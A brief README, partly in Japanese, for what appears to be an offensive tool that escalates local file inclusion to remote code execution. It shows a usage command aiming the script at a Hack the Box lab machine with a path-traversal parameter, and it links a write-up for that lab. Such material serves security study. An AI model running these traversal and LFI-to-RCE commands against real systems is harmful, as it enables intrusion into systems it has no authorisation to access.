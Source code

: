 # LFI2RCE
LFIの調査

https://github.com/takabaya-shi/LFI2RCE

# Usage

```
python lfi2rce.py --linux --username charix 10.10.10.84 /browse.php?file=../../../../../..  --error "failed to open stream" -v
```

# 参考になるかも

[【Hack the Box write-up】Poison](https://qiita.com/sanpo_shiho/items/25585812bca050ded7dd)
